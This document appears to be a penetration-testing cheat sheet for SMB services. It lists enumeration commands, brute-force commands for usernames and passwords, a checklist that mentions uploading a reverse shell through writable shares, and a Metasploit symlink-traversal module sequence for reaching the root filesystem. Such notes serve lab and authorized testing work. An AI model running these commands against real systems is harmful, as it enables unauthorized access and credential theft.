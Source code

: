 # 139,445 (SMB)

## Enumeration

### searchsploit

```bash
searchsploit <service info>  # Use searchsploit on nmap Service output details
```

### smbmap

```bash
smbmap -H <IP>
smbmap -H <IP> -u anonymous
smbmap -H <IP> -u '' -p ''
```

### smbclient

```bash
smbclient -L //<IP>  # List out available shares
smbclient //<IP>/<SHARE>  # Connect to an available share
```

### crackmapexec

```bash
crackmapexec smb <IP>
crackmapexec smb <IP> --shares
crackmapexec smb <IP> --shares -u '' -p ''
```

### rpcclient

```bash
rpcclient <IP>
rpcclient -U ''
<TAB> <TAB>  # Show options when connected
> enumdomusers
```

### nbtscan

```bash
nbtscan <IP>
```

### enum4linux

```bash
enum4linux <IP>
```

### nmap

```bash
# /usr/share/nmap/scripts/smb*
nmap -p445 <IP> --script=smb-system-info
nmap -p445 <IP> --script=smb-enum*
nmap -p445 <IP> --script=smb-vuln*
```

### Metasploit

```bash
search smb
```

## Brute Force

```bash
nmap --script smb-brute -p 445 <IP>
ridenum.py <IP> 500 50000 /root/passwds.txt #Get usernames bruteforcing that rids and then try to bruteforce eachusernam
```

## Exploitation Check

* [ ] Enumerate and download any interesting files ideally looking for credentials or other information relating to other services.
* [ ] Can you login via SMB and put files on the system?
  * [ ] If so, is there a web interface where you can access the files?
    * [ ] If so, then you may be able to upload a reverse shell.
  * [ ] If so, can you use Metasploit to create symbolic link to the root filesystem?

## Exploitation

### Metasploit

```bash
use auxiliary/admin/smb/samba_symlink_traversal
set rhost
set smbshare <SHARE>
exploit
```

Then back in `smbclient` we can `cd` into the `rootfs` that was created.
